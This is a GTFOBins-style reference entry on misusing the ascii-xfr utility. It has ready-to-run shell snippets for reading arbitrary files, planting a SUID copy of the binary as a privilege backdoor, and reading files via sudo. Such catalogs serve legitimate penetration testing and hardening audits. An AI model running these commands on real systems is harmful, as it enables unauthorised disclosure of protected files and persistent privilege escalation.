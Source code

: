 # GTFOBin: ascii-xfr

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
ascii-xfr -ns "$LFILE"
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which ascii-xfr) .

LFILE=file_to_read
./ascii-xfr -ns "$LFILE"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo ascii-xfr -ns "$LFILE"
```